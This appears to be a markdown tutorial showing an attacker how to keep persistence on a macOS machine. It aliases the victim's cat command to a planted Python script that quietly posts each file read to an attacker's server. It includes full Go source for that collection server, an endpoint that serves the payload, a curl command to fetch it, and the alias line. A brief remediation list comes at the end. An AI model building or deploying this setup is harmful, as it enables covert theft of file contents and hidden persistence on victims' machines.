 
Assuming the Attacker is already on the target machine and would like to
establish some level of persistence on the Victim machine.
One possible way to achieve this is by modifying a binary that exists on the Victim's machine.
In a very simple form this results in the victim executing a binary they use everyday and in the
process also execute something for the Attacker. 
The Victim does not notice any difference in behviour of the standard binary.


## Scenario
This simple example with showcase how a python script can be planted on the Victim
machine and the `.bash_profile` can be updated to include and alias to this script.
The example script executes when `cat` is called on a file.
Simultaneously the contents of the file are sent to the Attacker.

```
┌───────────────┐              ┌───────────────┐
│    Victim     │              │    Attacker   │
│               │              │               │
│   spycat.py   │              │     C2.go     │
│               │              │               │
│   http POST   ├──────────────►   (log.txt)   │
│               │              │               │
└───────────────┘              └───────────────┘
```

The Victim machine will be MacOS in this case.
The Attacker machine is linux running a custom golang http server.


### Attacker Setup
The GoLang server has a single endpoint which accepts the `POST` of file data.
It writes the output to a log file `log.txt`.

Its composition is as such...

```
package main

import (
  "fmt"
  "net/http"
  "log"
  "os"
  "bytes"
  "io"
)


func ReceiveFile(w http.ResponseWriter, r *http.Request) {
    r.ParseMultipartForm(32 << 20) // limit your max input length!
    var buf bytes.Buffer
    file, header, err := r.FormFile("file")
    if err != nil {
        panic(err)
    }
    defer file.Close()
    //name := strings.Split(header.Filename, ".")
    name := header.Filename
    fmt.Printf("File name %s\n", name)
    io.Copy(&buf, file)
    contents := buf.String()
    fmt.Println(contents)
    os.WriteFile(name, buf.Bytes(), 0600)
    buf.Reset()
    return
}


func handler(w http.ResponseWriter, r *http.Request) {
  switch r.Method {
  case "POST":
    ReceiveFile(w, r)
  default:
    fmt.Fprintf(w, "Hello world")
  }
}


func main() {
  fmt.Println("Starting Server")
  http.HandleFunc("/", handler)
  log.Fatal(http.ListenAndServe(":9999", nil))
}

```

The go server can be started using `go run server.go`.

As a bonus let's add another endpoint which will simply allow for downloading the malicious script.

GET request
```
  case "GET":
    filename := "spycat.py"
    body, _ := os.ReadFile(filename)
    fmt.Fprintf(w, string(body[:]))
```

Full script can be found in the `examples` directory in `server.go`.

This script can be downloaded using any HTTP delivery mechanism,
for testing try it as CURL

```
curl -s https://localhost:8080/spycat >> spycat.py
```

### Victim Setup

A Python script can be created on the Victim machine which leverages the default
Python interpreter installed on MacOS.
Create the script on the machine or download from the Attackers C2 server.

Create an alias that points the normal `cat` command to the malicious version.

```
alias cat="python <absolute_path_to_file>/spycat.py"
```

Now whenever the Vicitim `cat`s a file the content will be displayed to there terminal as well as sent to the Attacker.

## Remediation
* Read this blogpost, ie ingest this information into TIP platform (URL, filehash)
* Update endpoint signatures or create rule
* Threat hunt for any activity
* Block malicious domains and urls on the firewall

